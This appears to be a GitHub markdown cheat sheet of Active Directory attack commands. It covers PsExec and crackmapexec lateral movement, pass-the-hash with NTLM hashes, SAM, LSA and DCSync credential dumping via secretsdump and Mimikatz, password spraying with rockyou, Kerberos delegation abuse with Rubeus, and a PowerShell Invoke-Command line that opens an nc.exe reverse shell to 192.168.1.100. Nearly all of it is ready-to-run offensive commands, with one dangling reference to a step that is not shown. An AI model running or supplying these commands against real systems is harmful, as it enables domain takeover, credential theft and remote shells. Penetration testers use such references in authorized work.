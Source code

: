 ### lateral movement
```
| PsExec64.exe \\192.168.1.104 -u administrator -p forever cmd |
| psexec \\192.168.122.66 -u Administrator -p 123456Ww ipconfig|
| psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t ipconfig |
| PsExec64.exe \\ninja.corp cmd |
| psexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
| wmiexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
| crackmapexec 192.168.100.1/24 |
| crackmapexec cme-hosts.txt --shares |
| cme-hosts.txt -u username.txt -p password.txt --shares |
|crackmapexec 192.168.100.10 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --sam            |
| crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --lsa            |
| pth-rpcclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 |
| python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 Administrator@192.168.100.10 #with hash |
| python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -just-dc acmebank.loca/Administrator@192.168.100.10 |

```

| PowerShell Remoting |
| ------------------- |
|$Username = 'ninja.corp\MeMe' #powershell variable |
|$Password = '123456789aA'|
|$pass= ConvertTo-SecureString -AsPlainText $Password -Force #powershell variable |
|$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass #powershell variable |
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {hostname}|
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {cmd.exe /c nc.exe -v 192.168.1.100 7777 -e cmd.exe}|





### Mimikatz 
```
|lsadump::dcsync /domain:pentestlab.local /all /csv|
|Invoke-Mimikatz -Command '"lsadump::dcsync /domain:insomnia.ninja.corp /all /csv"'|
|Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'|
|Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'|
```

|  Password Spraying Attack |
| ------------- |
| crackmapexec smb 192.168.1.1  -d ninja.corp -u MeME -P /usr/share/wordlists/rockyou.txt|
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| crackmapexec smb 192.168.1.1 -u MeMe -H NTHASH |
|crackmapexec smb 192.168.1.1 -u '' -p '' #NULL Sessions|
|spray.sh -smb 192.168.1.1 users.txt /usr/share/wordlists/rockyou.txt  1 35 ninja.corp|
|spray.sh -owa 192.168.1.1 users.txt  /usr/share/wordlists/rockyou.txt   1 35 Request.body #OWA|
|spray.sh -ciso 192.168.1.1 usernames.txt /usr/share/wordlists/rockyou.txt 1 35 #CISCO Web VPN|
|./atomizer.py owa contoso.com 'Fall2018' emails.txt|


Then use `mimikatz` to load the ticket.

### Kerberos Constrained Delegation
```powershell

mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
Get-DomainComputer -TrustedToAuth | select -exp dnshostname #Identify
Get-DomainComputer previous_result | select -exp msds-AllowedToDelegateTo # Figure out exposed servie
getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password' -impersonate Administrator -dc-ip 10.10.10.10
rubeus s4u /user:user_for_delegation /rc4:user_pwd_hash /impersonateuser:user_to_impersonate /domain:domain.com /dc:dc01.domain.com /msdsspn:cifs/srv01.domain.com /ptt #with rubeus
 
```

